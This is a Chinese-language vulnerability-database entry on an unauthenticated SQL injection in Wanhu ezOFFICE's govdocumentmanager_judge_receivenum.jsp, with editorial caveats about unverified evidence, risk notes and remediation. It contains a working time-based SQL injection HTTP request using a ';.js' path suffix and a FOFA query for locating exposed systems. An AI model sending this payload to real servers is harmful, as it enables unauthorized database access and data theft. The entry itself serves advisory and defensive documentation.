

# 万户ezOFFICE govdocumentmanager_judge_receivenum.jsp SQL注入

## 条目说明

- 对象与具体问题：万户ezOFFICE；govdocumentmanager_judge_receivenum.jsp SQL注入
- 版本、配置及部署条件：未给版本；SQL Server延迟语法与;.js路径
- 认证与权限前提：声称未授权
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- numId延迟样本可定位接口但缺无延迟对照及响应文本
- 无依据的在野利用/影响面/EXP表应降级为待核实

## 操作风险

延迟探测可能占用数据库连接或影响服务。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。凭据示例如含星号，仅保留首尾用于说明，不能直接使用。

## 技术资料与来源记录

## 漏洞描述

万户 ezOFFICE govdocumentmanager_judge_receivenum处存在 SQL 注入漏洞，未授权的攻击者可进行sql语句查询导致敏感信息泄露。

## 影响版本

万户网络-ezOFFICE

## **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 原文提供部分细节 | 见技术资料 | 未独立核验 | 待来源核实 |

### 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

## 漏洞复现

FOFA：app="万户网络-ezOFFICE"

POC/EXP：

```http
GET /defaultroot/modules/govoffice/gov_documentmanager/govdocumentmanager_judge_receivenum.jsp;.js?numId=1;WAITFOR+DELAY+'0:0:6'-- HTTP/1.1
Host: 127.0.0.1
```




## 漏洞修复

关闭互联网暴露面或接口设置访问权限

升级至安全版本


---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
